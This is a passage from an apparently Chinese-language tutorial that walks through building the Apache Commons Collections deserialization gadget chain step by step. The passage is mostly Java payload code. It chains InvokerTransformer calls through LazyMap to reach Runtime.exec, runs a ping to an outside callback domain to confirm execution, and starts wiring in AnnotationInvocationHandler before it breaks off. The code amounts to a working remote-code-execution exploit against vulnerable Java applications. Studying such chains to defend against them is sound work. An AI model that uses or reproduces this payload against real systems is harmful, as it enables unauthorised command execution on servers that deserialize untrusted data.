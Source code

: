 ```java
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        lazyMap.get(null);
    }
}
```

成功收到请求如下

![](image-48.png)

## 继往开来

之后就是要找找看哪个类的 readObject 函数中调用了 get 方法，且是一个合格的入口类（合格就是参数接受 Object、最好存在 parm.get），可能作者是没找到合适的，最后找到了一个调用处理器类，里面 invoke 方法中有 xxx.get(parm)，xxx 也是可以控制的，且这个调用处理器类就是之前提到的 AnnotationInvocationHandler，具体代码如下-->

![](image-82.png)

至此，把 Payload 继续往下写一点-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```